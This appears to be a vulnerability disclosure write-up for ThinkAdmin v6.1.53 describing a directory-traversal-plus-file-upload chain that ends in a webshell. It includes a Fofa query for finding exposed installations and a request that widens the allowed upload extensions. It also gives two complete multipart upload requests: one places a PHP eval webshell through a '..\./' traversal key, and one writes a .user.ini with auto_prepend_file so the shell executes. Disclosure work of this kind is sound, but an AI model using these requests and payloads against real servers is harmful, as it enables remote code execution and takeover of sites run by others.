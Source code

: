 ThinkAdmin directory traversal+file upload getshell



Project Introduction

ThinkAdmin is a product that follows [MIT]（ https://mit-license.org/ ）Protocol open source rapid development framework, based on the latest version of  ThinkPHP6 , a minimalist backend management system (compatible with ThinkPHP8)

Official website: https://thinkadmin.top/



Audit version: ThinkAdmin Version v6.1.53

![image](https://github.com/1dreamGN/CVE/assets/112082417/35545e1b-e345-40e9-b502-898b98944dc9)


 

Fofa : body="/admin/api.plugs/script"

![image](https://github.com/1dreamGN/CVE/assets/112082417/32f29b86-1841-441c-9b91-253dc1e53b44)


Vulnerability: Directory traversal+file upload=getshell
Install Composer on the official website
After installation, log in and enter the background
Firstly, set the uploadable suffix for the backend

![image](https://github.com/1dreamGN/CVE/assets/112082417/5beca66e-6158-4642-9bc4-7ea68c022b31)


http://localhost/admin/config/storage.html?spm=m-1-2-3
param：storage%5Bname_type%5D=xmd5&storage%5Blink_type%5D=none&storage%5Ballow_exts%5D=doc%2Cgif%2Cico%2Cjpg%2Cmp3%2Cmp4%2Cp12%2Cpem%2Cpng%2Czip%2Crar%2Cxls%2Cxlsx%2Chtaccess%2Cini&storage%5Blocal_http_protocol%5D=follow&storage%5Blocal_http_domain%5D=&storage%5Btype%5D=local

![image](https://github.com/1dreamGN/CVE/assets/112082417/5d2dde5f-24a3-4022-b7b2-6f7405dfdc08)


First upload a Trojan with any file content as webshell

`POST /admin/api.upload/file HTTP/1.1

Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryCUB3l9pNDT4UzMSU

Cookie: user cookie

Host: IP：PORT

User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36

------WebKitFormBoundary3VyVEPpvQynFo76H

Content-Disposition: form-data; name="key"

 

..\./1.zip

------WebKitFormBoundary3VyVEPpvQynFo76H

Content-Disposition: form-data; name="safe"

 

0

------WebKitFormBoundary3VyVEPpvQynFo76H

Content-Disposition: form-data; name="uptype"

 

local

------WebKitFormBoundary3VyVEPpvQynFo76H

Content-Disposition: form-data; name="file"; filename="1.zip"

Content-Type: image/png

 

<?php @eval($_POST[1]);?>

------WebKitFormBoundary3VyVEPpvQynFo76H--`

![image](https://github.com/1dreamGN/CVE/assets/112082417/df639676-98ae-4e83-bbf4-25491472ea26)


Construct Payload Upload

http://localhost/admin/api.upload/file

`POST /admin/api.upload/file HTTP/1.1

Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryCUB3l9pNDT4UzMSU

Cookie: user cookie

Host: IP：PORT

User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36

------WebKitFormBoundary3VyVEPpvQynFo76H

Content-Disposition: form-data; name="key"

 

..\./.user.ini

------WebKitFormBoundary3VyVEPpvQynFo76H

Content-Disposition: form-data; name="safe"

 

0

------WebKitFormBoundary3VyVEPpvQynFo76H

Content-Disposition: form-data; name="uptype"

 

local

------WebKitFormBoundary3VyVEPpvQynFo76H

Content-Disposition: form-data; name="file"; filename="1.ini"

Content-Type: image/png

 

auto_prepend_file=1.zip

------WebKitFormBoundary3VyVEPpvQynFo76H--`

![image](https://github.com/1dreamGN/CVE/assets/112082417/6e90c2b4-8c5e-44a4-945c-cb98e30a86f6)

![image](https://github.com/1dreamGN/CVE/assets/112082417/94ec0974-5103-4735-b179-24af001735e1)

You can see that everything has been uploaded successfully

![image](https://github.com/1dreamGN/CVE/assets/112082417/0ebdec09-b37b-4f7f-a8d8-066c0b84c734)


 

Webshell also successfully parsed
